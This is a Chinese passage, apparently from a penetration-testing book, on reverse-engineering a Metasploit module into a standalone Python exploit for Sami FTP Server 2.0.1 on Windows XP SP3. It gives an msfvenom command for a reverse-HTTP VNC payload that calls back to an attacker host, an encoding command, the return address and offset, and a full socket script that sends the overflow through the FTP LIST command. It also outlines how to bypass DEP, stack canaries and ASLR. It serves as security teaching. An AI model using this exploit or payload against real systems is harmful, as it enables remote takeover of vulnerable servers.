

接下来，我们将看一下实际的有效载荷；我发现将其复制到像 Notepad++这样的代码编辑器中会更容易。这样可以让你看到通常需要哪些括号和分隔符。与以前编写利用的示例不同，我们将从实际的 shellcode 开始，因为这将需要最大的努力。因此，看一下实际 Metasploit 模块的有效载荷部分。



如您所见，堆栈调整为 3500，以更准确地容纳 shellcode 的放置。您可以再次使用上面突出显示的相同方法进行计算。在较新的 Metasploit 模块中，您将看到`PrependEncoder`而不是`StackAdjustment`，带有加号或减号的值。因此，作为模块开发人员，您不必实际计算十六进制代码。

堆栈调整为`-3500`意味着我们将这个值添加到 ESP。为此，我们需要计算`-3500`的 ESP 调整，但是为了进行这个计算，我们需要将`-3500`改为十六进制值。十六进制等价值为`-0xDAC`。



现在，我们将调整数据打印成十六进制文件。



正如您在模块的有效负载部分看到的，有已知的不良字符。当我们生成初始有效负载时，我们将这些字符纳入到有效负载生成中。现在，我们使用这些特性生成有效负载。

```py
msfvenom -p windows/vncinject/reverse_http lhost=192.168.195.172 lport=443 -b '\x00\x0a\x0d\x20\x5c' -f raw -o payload

```



我们验证了使用`hexdump`命令生成的有效负载。

```py
hexdump -C payload

```

下图显示了有效负载的输出：



为了结合堆栈调整代码和实际有效负载，我们可以使用下图中突出显示的方法，显示了这个命令的简单性：



执行后，我们验证了两个组件的组合，如您所见，调整的十六进制代码被放置在 shellcode 的前面。



现在，将数据编码为脚本可用的格式，删除我们通常知道会破坏漏洞的不良字符。

```py
cat shellcode |msfvenom -b "\x00\xff\x01\x09\x0a\x0d" -e x86/shikata_ga_nai -f c --arch x86 --platform win

```

生成的输出是实际用于此漏洞利用的 shellcode：



现在，我们可以开始使用 Metasploit 模块中的所有功能来构建我们的漏洞利用。我们将使用目标代码来提取`Offset`和`Ret`数据。`Ret`保存 EIP 的返回地址，`Offset`提供了调整 shellcode 放置位置所需的数据。



生成我们的漏洞利用的返回地址组件非常简单。

```py
eip = struct.pack('<I',0x10028283)
```

设置偏移量可能因模块而异，您可能需要进行额外的数学运算来获得正确的值。因此，始终查看实际的漏洞利用代码，如下所示：



我们看到偏移量的长度减去了 IP 地址的大小。这创建了一个更新的偏移值。

```py
offset = 228 - len(lhost)
```

我们可以看到生成了随机文本的垃圾数据。因此，我们可以以类似的方式生成我们的 NOPs。

```py
nop = "\x90" *16
```

接下来，我们需要创建注入漏洞代码的操作顺序。

```py
exploit = offset + eip + nop + shell
```

如您所见，使用前面章节中的知识一切都非常简单。最后一个组件是设置处理程序与 FTP 服务进行交互。

```py
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((rhost, rport))
print(client.recv(1024))
client.send("USER " + username + "\r\n")
print(client.recv(1024))
client.send("PASS "password + "\r\n")
print(client.recv(1024))
print("[*] Sending exploit")
client.send("LIST" + exploit + "\r\n")
print(client.recv(1024))
client.close()
```

最终结果是一个可以测试并运行在实际服务器上的 Python 漏洞利用。这为测试提供了一个很好的起点。如果发现 Metasploit 模块不完美，将其逆向创建一个独立的模块，可以帮助您排除可能的问题。

请记住，漏洞利用有一个可靠性评级系统。如果漏洞利用的可靠性评级较低，意味着它可能无法始终产生期望的结果。这为您提供了尝试改进实际 Metasploit 模块并为社区做出贡献的机会。例如，这个漏洞利用的评级是低的；考虑测试并尝试改进它。

```py
import sys, socket, strut
rhost = "192.168.195.159"
lhost = "192.168.195.172"
rport = 21
password = "badpassword@hacku.com"
username = "anonymous"
eip = struct.pack('<I',0x10028283)
offset = 228 - len(lhost)
nop  = "\x90" *16
shell =() #Shellcode was not inserted to save space
exploit = offset + eip + nop + shell
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((rhost, rport))
print(client.recv(1024))
client.send("USER " + username + "\r\n")
print(client.recv(1024))
client.send("PASS "password + "\r\n")
print(client.recv(1024))
print("[*] Sending exploit")
client.send("LIST" + exploit + "\r\n")
print(client.recv(1024))
client.close()
print("[*] Sent exploit to %s on port %s") % (rhost,rport)
```

现在，这个特定的漏洞利用是为 Windows XP SP 3 开发的。您现在可以使用这段代码来尝试并针对不同的平台。独立的 Python 漏洞利用意味着您有必要的能力来扩展漏洞利用。然后，您可以将额外的目标添加到 Metasploit 模块中。这可以通过修改模块的以下部分来实现。



以下是实际模块中的代码如何更新以包含其他相关目标的方式：

```py
'Targets'        =>
        [
          [ 'Sami FTP Server 2.0.1 / Windows XP SP 3',   { 'Ret' => 0x10028283, 'Offset' => 228 } ],
          [ 'New Definition', { 'Ret' => 0x#######, 'Offset' => ### } ],
```

通过这个例子，我们看到了如何反向工程 Metasploit 模块以创建一个独立的漏洞利用，这可以用来扩展目标选择并提高未来漏洞利用的可靠性。

### 注意

如果您选择创建新的 Metasploit 模块或具有不同功能的更新，并且不想破坏当前的安装，您可以将自定义模块加载到 Metasploit 中。这些细节在以下位置有很好的文档记录[`github.com/rapid7/metasploit-framework/wiki/Loading-External-Modules`](https://github.com/rapid7/metasploit-framework/wiki/Loading-External-Modules)。

# 理解保护机制

有一整本书专门介绍了一些供管理员和开发人员使用的工具，这些工具可以防止许多漏洞利用。它们包括**数据执行防护**（**DEP**），如果代码和操作系统配置为利用它，它将阻止像我们这样的代码运行。这是通过阻止在堆栈上执行数据来实现的。我们可以通过简单地覆盖**结构化异常处理**（**SEH**）来绕过 DEP，以运行我们自己的代码。

栈金丝雀是栈中的数学构造，检查返回指针何时被调用。如果值发生了变化，那么出现了问题，并引发了异常。如果攻击者确定了守卫正在检查的值，它可以被注入到 shellcode 中以防止异常。

最后，还有**地址空间层随机化**（**ASLR**），它随机化了我们利用的内存位置。ASLR 比其他两种方式更难打败，但它基本上是通过在内存中构建具有维持一致内存位置的共享库组件的漏洞利用来打败的。没有这些一致的共享库，操作系统将无法执行基本的进程。这种技术被称为**返回导向编程**（**ROP**）链接。

# 摘要

在本章中，我们概述了 Windows 内存结构以及我们如何利用糟糕的编码实践。然后，我们强调了如何使用 Python 代码生成自己的漏洞利用，使用有针对性的测试和概念验证代码。本章最后介绍了如何反向工程 Metasploit 模块以创建独立的漏洞利用，以改进当前模块的功能或生成新的漏洞利用。在下一章中，我们将介绍如何自动报告渗透测试期间发现的细节以及如何解析**可扩展标记语言**（**XML**）。
